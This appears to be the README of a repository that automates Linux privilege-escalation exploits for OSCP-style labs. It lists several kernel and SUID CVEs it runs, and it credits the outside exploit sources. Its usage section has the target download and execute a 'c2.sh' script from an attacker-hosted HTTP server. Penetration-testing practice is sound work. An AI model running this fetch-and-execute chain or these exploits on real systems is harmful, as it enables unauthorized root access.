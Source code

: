 
# worst-autoLinPrivesc

This is a modular shell-based automation framework designed to cut through noisy LinPEAS output during OSCP-style labs and exams. It focuses on the **same small handful of privilege escalation suggestions that LinPEAS repeatedly flags**, regardless of actual vulnerability.

This toolkit automates checks and execution for:
- PwnKit (CVE-2021-4034)
- sudoedit heap overflow (CVE-2021-3156)
- Dirty Pipe (CVE-2022-0847)
- Polkit (CVE-2021-3560)
- Screen v4.5.0 SUID (CVE-2017-5618)
- Basic kernel version matching
- LinPEAS + unix-privesc-check scanning
- LinPEAS post-processing parser (basic implementation)

## Why This Exists

In OffSec challenge labs and machines, **LinPEAS frequently suggests the same exploits** regardless of applicability. To streamline triage and reduce alert fatigue, this repo:
- Parses LinPEAS output for real leads (cron, processes, SUID)
- Auto-runs known kernel/heap exploits from hosted files
- Logs all results under `/tmp/c2_auto`

## Usage

On Kali:
```bash
python3 -m http.server 80
```

On target:
```bash
wget http://<kali-ip>/c2.sh
chmod +x c2.sh
./c2.sh --ip <kali-ip> --port 80
```

## Folder Structure

```
.
├── c2.sh                    # Main control & orchestration script
├── kernel_checks.sh         # Kernel exploit matcher
├── linpeas.sh               # Downloaded: PEASS-ng linPEAS
├── unix-privesc-check       # Downloaded: pentestmonkey tool
├── dirtypipe/               # CVE-2022-0847 Dirty Pipe compiled files
├── sudo-1.8.31/             # CVE-2021-3156 exploit & shellcode
├── polkadots                # CVE-2021-3560 compiled binary
├── pwnkit.sh, screen450.sh, etc.   # Per-exploit modules
```

## External Sources

These files are used as-is from their respective authors:

- linpeas.sh from [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
- unix-privesc-check from [pentestmonkey](https://github.com/pentestmonkey/unix-privesc-check)
- PwnKit from [ly4k](https://github.com/ly4k/PwnKit)
- sudo-1.8.31 from [Whiteh4tWolf](https://github.com/Whiteh4tWolf/Sudo-1.8.31-Root-Exploit)
- Dirty Pipe from [AlexisAhmed](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)
- Polkit from [swapravo](https://github.com/swapravo/polkadots)

## License & Ethics

For educational use only. This repo automates noisy-but-low-risk local exploits.  
Use only in environments you have **explicit permission** to test.

No warranty. No support.
